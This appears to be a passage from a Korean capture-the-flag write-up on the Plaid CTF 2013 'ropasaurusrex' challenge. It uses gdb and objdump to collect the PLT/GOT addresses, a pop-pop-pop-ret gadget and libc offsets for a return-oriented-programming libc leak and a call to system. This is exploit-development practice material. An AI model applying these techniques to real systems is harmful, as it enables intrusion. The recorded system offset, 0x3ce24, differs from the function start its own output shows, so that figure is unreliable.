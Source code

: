 ```
gdb-peda$ disas read
Dump of assembler code for function read@plt:
   0x0804832c <+0>:	jmp    DWORD PTR ds:0x804961c
   0x08048332 <+6>:	push   0x18
   0x08048337 <+11>:	jmp    0x80482ec
End of assembler dump.
gdb-peda$ disas write
Dump of assembler code for function write@plt:
   0x0804830c <+0>:	jmp    DWORD PTR ds:0x8049614
   0x08048312 <+6>:	push   0x8
   0x08048317 <+11>:	jmp    0x80482ec
End of assembler dump.
gdb-peda$

// read got  : 0x0804961c
// read plt  : 0x0804832c
// write got : 0x08049614
// write plt : 0x0804830c
```
<strong>gdb를 이용해서 read/write의 plt/got를 알아냈습니다.</strong><br>

```
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$ objdump -d ropasaurusrex | grep -B4 "ret"
(생략)
--
 80484b5:	5b                   	pop    %ebx
 80484b6:	5e                   	pop    %esi
 80484b7:	5f                   	pop    %edi
 80484b8:	5d                   	pop    %ebp
 80484b9:	c3                   	ret    
 80484ba:	8b 1c 24             	mov    (%esp),%ebx
 80484bd:	c3                   	ret    
--
(생략)

// pop pop pop r : 0x080484b6
```
<strong>objdump를 이용해서 pppr을 알아냈습니다 pppr을 구하는 이유는 read/write 함수의 인자는 3개이기 때문입니다.</strong><br>

```
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$ objdump -d /lib32/libc.so.6 | grep __read
(생략)
   df11b:	e8 00 65 00 00       	call   e5620 <__read@@GLIBC_2.0>
   df27a:	e8 a1 63 00 00       	call   e5620 <__read@@GLIBC_2.0>
   df42e:	e8 ed 61 00 00       	call   e5620 <__read@@GLIBC_2.0>
000e5620 <__read@@GLIBC_2.0>:
   e5639:	75 1d                	jne    e5658 <__read@@GLIBC_2.0+0x38>
   e564c:	77 52                	ja     e56a0 <__read@@GLIBC_2.0+0x80>
   e5680:	77 28                	ja     e56aa <__read@@GLIBC_2.0+0x8a>
(생략)
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$ objdump -d /lib32/libc.so.6 | grep system
0003ce10 <__libc_system@@GLIBC_PRIVATE>:
   3ce24:	74 0a                	je     3ce30 <__libc_system@@GLIBC_PRIVATE+0x20>
00127030 <svcerr_systemerr@@GLIBC_2.0>:
  12708b:	75 04                	jne    127091 <svcerr_systemerr@@GLIBC_2.0+0x61>
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$

// read offset   : 0xe5620
// system offset : 0x3ce24
```
<strong>objdump를 이용해서 read/system offset을 구했습니다. read offset은 libc의 주소를 릭 하는데 사용되고, system offset은 나중에 system 주소를 릭할 때 사용됩니다.</strong><br>
